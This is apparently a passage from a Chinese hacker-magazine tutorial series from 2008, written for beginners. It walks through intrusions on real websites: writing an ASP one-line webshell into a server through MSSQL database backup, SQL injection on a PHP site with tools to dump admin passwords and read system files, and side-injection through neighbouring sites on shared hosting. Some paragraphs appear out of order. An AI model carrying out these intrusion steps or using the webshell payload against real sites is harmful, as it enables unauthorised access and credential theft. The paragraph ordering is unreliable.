

找到网站的绝对路径后又该怎么做呢？DB_OWNER 权限一般是可以备份数据库的，可以将数据库备份到文件中。我们正是利用这点将一句话木马插入到数据库中，然后再将数据库备份到网站绝对路径下的 ASP 文件中，这样一个 webshell 就产生了。

打开 zj1244 小菜编写的“备份数据库利用工具”，利用这个工具我们可以简单的实现针对 DB_OWNER 权限下的差异备份和日志备份功能，在地址栏填写上注入点的地址，默认情况下工具会以数字型的注入点进行备份，如果注入点是字符型的就要勾选上“字符型”哦。怎么确定注入点是数字型还是字符型呢？这个可以在图 22 啊 D 检测的结果中看到。在备份类型处可以选择差异备份和日志备份，这里我选择的是“差异备份”。在代码处填写一句话木马的代码，我填写的是 ASP 后门服务端代码<%execute(request("cmd"))%>。在路径处填写想要备份到网站的绝对路径的哪个文件中，我填写的是“D:\Web\a4tech\jj.asp”，最后直接点击“发送”就可以了，稍等一会儿工具就会将备份工作完成，并弹出一个发送完毕的提示框了（图 24）。


稍等一会儿我们再访问一句话木马，因为备份出来的数据库通常比较大，所以要等待一会儿（几分钟即可），但是在 IE 中直接打开一句话木马的时候出现了一个网站，我当时就郁闷了，反复测试了好几次才发现这个网站已经被别人入侵过了，数据库中被写马掉转到了“http://turkforces.com/hacked.html”，通过查看 jj.asp 的源文件发现了如下代码“<meta http-equiv=refresh content="0;URL=http://turkforces.com/hacked.html">”（图 25），此代码的意思就是当打开此网站的时候直接跳转到“http://turkforces.com/hacked.html”的网址上。



要怎么解决呢？我冥思苦想了 5 分钟，发现跳转是在执行完 ASP 代码后进行的，那么先执行一个不需要回显的控制命令就可以了，执行什么呢？我突然想起来可以通过一句话木马再写一个一句话木马上去。

打开“Lanker 微型 PHP+ASP 管理器”，此工具可以作为控制端管理 ASP 和 PHP 的一句话木马，在木马地址处填写刚才备份得到的一句话木马的 URL 地址，然后再将一句话木马的连接密码填写上，在左侧功能区选择“创建文件”，此处我填写的是“D:\Web\a4tech\cc.asp”，在文件内容处填写上 ASP 后门服务端代码<%execute(request("cmd"))%>，点击提交即可（图 26）。


为了检测一下 cc.asp 文件是否建立成功，我使用 IE 打开该文件发现代码已经被执行了，因为报错了（图 27）。在“Lanker 微型 PHP+ASP 管理器”中将木马的地址换成 cc.asp 的 URL 地址，在左侧功能区选择“环境变量”，提交后进行连接，成功得到了一个 WEBSHELL（图 28）。


（文章中涉及到的工具 D_SQLTools2.0、ASP+PHP 两用 Shell、DeMd5 暴力破解工具、备份数据库利用工具、NBSI2、5Xiaolu 以及动画文件已经收录在光盘中 5）

4

## 菜鸟师徒行

### 网站入侵也简单（下）

阿布（周三杰）

“哎，都放假了！哎，都回家了！哎，都不上网了！神啊，谁可以陪陪我，让我不要这么的寂寞！”阿布正郁闷的自言自语。话刚说完，燕MM居然就来了`_`（经常玩QQ的朋友都知道，QQ有个为好友设置自动问候的选项，所以燕MM一上线就会自动问候哦）。

还没等燕MM发话，阿布就欣喜的说道：“神呀！太感谢你了！宝贝徒弟，你可是神专门从天上派下来安慰我寂寞心灵的天使？”看到阿布突然说出这么古怪的话，燕MM不由的问道：“破布师父，你不会是前几天考试把脑袋给考坏了吧！考试真折磨人啊，下个月我也要考三级网络，不会也向你那样给考出神经病吧。最近天气好冷，今天又下雪了，小手都不敢往外伸。对了，师傅你怎么知道我上线了？比我打字都快呀。”

阿布笑了笑说道：“你不是连上线的……算了，给你讲吧！我点击你QQ的头像会出现一个查看好友资料，然后有个备注/设置，里面有个“如果该好友上线则发出自动问候”，把前面那个对勾选上就OK了。只要你一上线，我的QQ就会自动的发出问候消息。”

燕MM佩服的说道：“真厉害呀，师傅，你怎么什么都知道啊！”

虽然这只是一个非常弱智的、地球人都会的问题，不过听到燕MM的夸奖，阿布心里还是挺高兴的。燕MM又迫不及待的问道：“布师师，今天你要交我什么呢？时间宝贵哦，我们快点开始吧。”

阿布看到燕MM居然叫自己布师师，冷的浑身起了鸡皮疙瘩，猛喝了一大口咖啡，然后镇定的说道：“我们接着讲上次的内容，这节课还是讲网站的攻击。”

#### 一、PHP 注入一点通

其实不光ASP网站可以进行注入，PHP网站也是可以被注入的，甚至于连JSP网站也可以被注入。在网络上使用最广泛的就是ASP和PHP网站，在前几节课中我们已经详细的介绍过了关于ASP网站的人侵技术，那么这次我就给大家介绍一下PHP网站的注入。

先来补习一下PHP注入的基础知识：PHP的运行环境一般是Apache+PHP+MySql。通常服务器配置的时候会打开php.ini里的安全模式，也就是将safe_mode设为on，还有就是将display_errors设为off，即关闭错误显示。还有一个重要的配置就是magic_quotes_gpc，高版本默认为on，以前的版本中默认为off，其作用就是把提交的变量中所有的“'”（单引号）、“"”（双引号）、“”（反斜线）和空字符自动转换为含有反斜线的转义字符，例如把“'”变成了“'”，把“”变成了“\”，这一点足够让我们郁闷的了，有时候遇到BT的字符型也只能说再见了。

我们如何检测一个地址是否存在PHP注入呢？相信大家在看了上期杂志后都掌握了关于ASP的注入检测，但是PHP与ASP相比还是有些不同之处的。我们仍然进行手工检测，打开“http://127.0.0.1/ymdown/show.php?id=21”（图1），和ASP有点相似吧，我们在后面加上一个单引号，程序出错了，而且暴出了程序的绝对路径（图2），“C:\AppServ\www\ymdown\global.php”就是当前PHP文件的绝对路径，这个暴出的路径在我们以后的人侵中可能会有用的。

我们在正常的地址后面加上“and 1=1”，可以看到返回了正常的页面（图3），再在正常的地址后面加上“and 1=2”，返回了错误的页面（图4）。




点击“开始”按钮就会自动检测字段长度了，检测完毕后，我们可以通过HDSI自带的浏览器看到页面中的字段都被1、2、3等数字所代替了，这里就是ASP和PHP注入的不同之处。接下来就是猜解数据库了，先猜解表名，然后再猜解列名（图7）。
那么如何才能获取管理员的帐号信息呢？在PHP注入中采用的暴记录的方法，而不用像ASP里一个个字符进行猜解了。在右侧有暴记录的选项，“字段-位置”就是询问你字段一暴出来的东西显示在页面哪个字段的地方，根据我的观察，页面中4和6两个位置不错。分别将它们设置为字段一和二的位 置，然后点击“已猜解列名”中的列名和“已猜解表名”中的表名。点击“确定”按钮就可以将管理员的帐号信息暴出来了（图8），把目光再次投到HDSI所带的浏览器中，大家可以清楚的看到管理员的帐号密码（admin/7788521）。



有了管理员的帐号和密码，还得找后台啊！这点和 ASP一样，怎么找呢？在 HDSI 里同样也可以查找后台，点击“猜解数据库”旁边的“后台扫描”，然后点击“扫描”按钮 HDSI就会自动扫描后台了（图9）。找到后台后，打开 IE 输入后台地址，使用刚才得到的管理员帐号和密码直接登录就可以了（图10）。

好了，现在我们就可以认定这个地址存在注入漏洞了。在正常的地址后面加上“/*casper”，还是返回了正常的页面，这就可以确定它使用的是 MySql 数据库（图 5）。
为什么呢？这是因为“/*”是 MySql 里的注释语句，“/*”后面的“casper”只是当作注释而已。现在已经检测到一个 PHP注入点了，那么如何进行注入操作呢？我推荐大家使用 HDSI，这是教主编写的一款集合 ASP 与 PHP 的注入工具。



打开 HDSI，直接点击最左边一列的 “PHP 注入” 来进入 PHP注入界面，在“注射地址”栏输入刚才检测出漏洞的注入点地址“http://127.0.0.1/ymdown/show.php?id=21”，还需要填写关键字，这个就相当于 ASP 注入里的特征字符了，我选择了页面中的“测试”二字（图 6）。




在 PHP 中不光可以检测数据库中的数据，还可以利用 MySql 中的 load_file 函数进行读文件，能读哪些文件呢？这就得看你的权限有多大了，如果是 ROOT 权限的话，那就是想读什么就读什么。当然也不能随便的读，要充分利用系统资源，比如可以读数据库的链接文件，或者 SERV-U 的配置文件等。

HDSI 也继承了这个功能（图 11）。


在右侧有个“暴文件”的选项，“loadfile 的位置”就是将暴来的文件内容显示在页面中哪个字段的位置，我选择的是 12 号字段，“目标绝对路径”就是问你想读哪个文件，这里必须是文件的绝对路径，还记得最初我们暴出的绝对路径吗？在这儿终于派上用场了，我们来测试一下权限的大小，进行读取 C 盘根目录的 boot.ini 文件，在其中输入“c:\boot.ini”，然后点“确定”，刷的一下文件内容就暴出来了（图 12），原来还是 ROOT 权限呀，那么就可以读取所有文件了。



#### 二、旁注来帮忙

有时候我们在入侵一个站点时发现很难入手，但又不想放弃，那么该怎么办呢？对于这种情况，我们就可以使用旁注的方法来进行迂回式的入侵了。什么是旁注呢？顾名思义就是从旁边注入，也就是利用服务器上的另一个虚拟站点进行渗透入侵，在成功得到了 webshell 后，再利用服务器的其它漏洞得到最初想入侵的那个站点的权限。

如何寻找同一服务器上的其它站点呢？我们再引入 WHOIS 概念，简单的说，whois 就是一个用来查询域名是否被注册以及注册域名的详细信息的数据库（比如域名所有人、域名注册商、域名注册日期和过期日期等），并且一些 whois 服务器还可以查询出该服务器上绑定了多少个域名，分别是哪些域名等信息。一般的查询方法有两种：通过工具查询和通过网站查询。其实原理都是一样的。我们再来介绍另一款综合注入工具 Domain3.5，它是明小子开发的一款针对 ASP 注入的工具，由于它在旁注方面非常出色，所以我把它划到了旁注工具部分（图 13）。


打开工具，在域名栏输入我们要查询的域名地址，然后点击“>>>”，工具会自动将域名转换为 IP 地址，因为在查询 whois 的时候，实质上是使用 IP 地址来查询的。点击“查询”按钮就可以在左侧列表中显示当前服务器上绑定的域名，我们以黑客 X 档案的服务器为例（图 14），可以看到服务器上绑定了不少域名，可以通过右侧的“网站批量检测”对这些站点进行更全面的“体检”。


# 菜鸟学堂

## 2008 合订本上卷


不过有时候，Domain3.5 也会查询不出来，比如今天我给大家选择的这个目标网站（图 15）。



工具提示“该 IP 地址没有绑定任何国际域名”，真的没有绑定吗？我们再来检测一下，通过 whois 网站进行查询，打开“http://www.myipneighbors.com/”（图 16）。


输入网站的域名或者对应的 IP 地址都可以，点击确定进行查询，这样就可以看到绑定在服务器上的好多域名了吧（图 17）。从中选择几个地址放到 Domain3.5 里进行注入检测，一会儿就检测出好几个存在注入漏洞的网站（图 18）。




随便挑选一个，双击注入点链接就可以进入 SQL 注入界面，点击“开始检测”，工具就会自动进行注入分析了（图 19）。

原来是 MSSQL 数据库，这是个 DB 权限呢，利用上期介绍的数据库备份的方法就可以得到这个网站的 WEBSHELL 了。同时我也在想，能不能直接备份到目标网站的目录里呢？权限应该差不多了，通过啊 D 的列目录功能，一会儿就把目标网站的绝对路径给找到了（图 20）。



118


接下来直接使用数据库备份工具往目标网站写入 WEBSHELL（图21），最后再使用客户端进行连接即可（图22）。


其实也并非一定要拿下主机，有些主机在设置虚拟机目录时设置的不严格，在一个虚拟机主机目录下是可以跳转到其它虚拟机主机目录下的。

还有一种旁注方法，就是入侵目标网站所在服务器的旁边一台服务器，也就是将那台服务器的邻居拿下，然后进行嗅探或者入侵等再拿下目标主机，在 2007 年有好多服务器都是被这样入侵的，因为有了 CAIN 那个坏家伙的 ARP 嗅探嘛。

### 三、跨站（XSS）的艺术

